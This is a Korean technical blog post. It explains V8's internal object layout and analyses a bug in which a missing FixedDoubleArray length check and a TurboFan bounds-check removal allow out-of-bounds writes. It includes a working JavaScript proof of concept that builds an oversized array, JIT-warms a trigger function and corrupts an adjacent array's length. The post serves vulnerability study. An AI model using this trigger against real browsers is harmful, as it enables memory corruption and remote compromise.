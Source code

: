 ```yaml
---
layout: post
comments: false
categories: Works
---
```



## V8 내부 객체 구조

모든 객체는 공통된 헤더를 가집니다.

```
[ Map Pointer | Properties Pointer | Elements Pointer | … (in-object fields) … ]
```

- Map Pointer
    - 이 객체가 어떤 형(Shape)인지 정의하는 포인터
    - Hidden Class라고도 부르며, 프로퍼티 이름·순서·타입 정보·접근 오프셋 등이 담긴 메타데이터.
- Properties Pointer
    - named property(예: `obj.foo = 123`)들의 실제 값 저장소로 연결.
    - Fast Properties 모드일 땐 `FixedArray` 또는 `DescriptorArray` 포인터, Dictionary Properties 모드에선 해시맵 구조체 포인터.
- Elements Pointer
    - 인덱스 Properties들의 저장소.
    - 보통 `FixedArray` 또는 `FixedDoubleArray` 형태로, 길이와 실제 데이터가 이어진 버퍼.
- In-Object Fields
    - Map에 정의된 in-object property count 만큼, 헤더 뒤에 곧바로 배치되는 슬롯 공간.
    

```jsx
a = 1;
b = true;
c = ['1', '2'];
d = {"a": 2};
e = {"b": 1, "c": 3};
```

- a = 1

`1` 은 31비트(또는 32비트 아키텍처에선 30비트) 정수로 태그되어, 포인터처럼 레지스터나 스택에 저장.

Heap 할당 없이 즉시 사용 가능 → 매우 빠른 접근 속도

- b = true

마찬가지로 heap 할당 없이 저장

- c = ['1', '2']
    - HeapObject 헤더
    
    ```
    ┌───────────────────────────────────────────┐
    │ HeapObject for Array c                    │
    │ ┌────────────┬───────────────────────────┐│
    │ │ Map Ptr    │ → Map_Array               ││
    │ ├────────────┼───────────────────────────┤│
    │ │ properties │ → empty_properties_array  ││
    │ ├────────────┼───────────────────────────┤│
    │ │ elements   │ → FixedArray (len=2)      ││
    │ ├────────────┼───────────────────────────┤│
    │ │ InObject0  │ (unused)                  ││
    │ └────────────┴───────────────────────────┘│
    └───────────────────────────────────────────┘
    ```
    
    - **Map_Array**: 배열 전용 Hidden Class
    - **properties**: 배열은 일반적으로 named property가 없으므로 빈 배열 포인터
    - **elements**: `FixedArray` 형태, 두 슬롯에 `String('1')` 과 `String('2')` 에 대한 포인터 저장
        - 문자열 `'1'`, `'2'` 는 각각 **HeapObject String** 으로 따로 저장.
- d = {"a": 2}
    - 초기 빈 객체
    - 프로퍼티 `a` 추가
        - HiddenClass 전이
        - properties 확장
            
            `properties` 포인터가 빈 배열 → `FixedArray(len=1)` 로 교체, [0]에 SMI `2`
            
- e = {"b": 1, "c": 3}
    - 빈 객체
    - 프로퍼티 `b` 추가
        - properties → `FixedArray(len=1)` 에 [1]
    - 프로퍼티 `c` 추가
        - properties → `FixedArray(len=2)` 에 [1, 3]
        

## Root Cause

- 배열 생성 시 최대 길이 검사 누락

V8 소스의 `fixed-array.tq` 파일에 정의된 매크로 `NewFixedDoubleArray`에서,  생성하려는 배열의 길이가 `kFixedDoubleArrayMaxLength`를 초과하는지 검사하는 코드가 빠져 있습니다.

```diff
macro NewFixedDoubleArray<Iterator: type>(
    length: intptr, it: Iterator): FixedDoubleArray|EmptyFixedArray {
  if (length == 0) return kEmptyFixedArray;
+ if (length > kFixedDoubleArrayMaxLength) deferred {
+     runtime::FatalProcessOutOfMemoryInvalidArrayLength(kNoContext);
+ }
  return new FixedDoubleArray{
    map: kFixedDoubleArrayMap,
    length: Convert<Smi>(length),
    objects: …it
  };
}

```

이로 인해 길이가 한계치를 초과해도 `FixedDoubleArray`가 생성되어 내부 버퍼 크기를 벗어나는 상태가 만들어집니다.

- JIT 최적화 과정에서 경계 검사 제거
TurboFan JIT 컴파일러의 `simplified-lowering` 단계에서, 배열 접근에 대한 경계 검사가 없습니다.

```diff
case IrOpcode::kMaybeGrowFastElements: {
  ProcessInput(node, 0, …);  // object
  ProcessInput(node, 1, …);  // elements
  ProcessInput(node, 2, …);  // index
  ProcessInput(node, 3, …);  // length
  ProcessRemainingInputs(node, 4);
  SetOutput(node, MachineRepresentation::kTaggedPointer);
- if (lower() && index_type.Max() < length_type.Min()) {
-   DeferReplacement(node, node->InputAt(1));
- }
  return;
}

```

이 단계에서 “index < length”라는 전제 조건 검사를 완전히 빼 버리기 때문에, OOB 쓰기가 가능해집니다.

## PoC

- `giant_array` 생성

```jsx
array = Array(0x40000).fill(1.1);
args  = Array(0x100 - 1).fill(array);
args.push(Array(0x40000 - 4).fill(2.2));
giant_array = Array.prototype.concat.apply([], args);
```

`array` 길이: 0x40000 (262 144)

`args`에 0xff개(`0x100 - 1`)의 동일 배열 추가 → 길이 = 0x40000 × 0xff

마지막에 길이 0x40000−4 (262 140) 배열 추가 → 총합 = 262 144×255 + 262 140 = 67108860

- `splice`를 통한 배열 재생성

```jsx
giant_array.splice(
  giant_array.length, 0, 3.3, 3.3, 3.3
);
```

이 호출로 V8은 내부적으로 새로운 `FixedDoubleArray`를 만들면서 길이를 `67108863`으로 설정

그러나 `NewFixedDoubleArray`에선 최대 길이(`kMaxLength = 67 108 862`) 초과 여부를 검사하지 않으므로, 버퍼 오버플로우 상태가 만들어집니다.

- 경계 검사 제거 반복 트리거

```jsx
for (let i = 0; i < 30000; ++i) {
  trigger(giant_array);
}
```

JIT 컴파일러가 `trigger` 함수를 **반복** 실행하여 최적화를 활성화

최적화된 바이트코드에서는 배열 길이 검사(`index < length`)가 삭제되어, 이후 해당 함수를 호출할 때마다 OOB 쓰기가 곧바로 실행

- OOB 쓰기

```jsx
function trigger(array) {
  var x = array.length;     // 67 108 863
  x -= 67_108_861;          // 2
  x = Math.max(x, 0);       // 2
  x *= 6;                   // 12
  x -= 5;                   // 7
  x = Math.max(x, 0);       // 7

  let corrupting_array = [0.1, 0.1];
  let corrupted_array  = [0.1];

  corrupting_array[x] = length_as_double;
  return [corrupting_array, corrupted_array];
}
```

`x` 계산 결과 `7`이 되는데, 실제 `corrupting_array`의 길이는 2이므로 인덱스 7은 경계 밖
이때 `length_as_double`을 써서, 인접 메모리를 덮어쓰게 됩니다.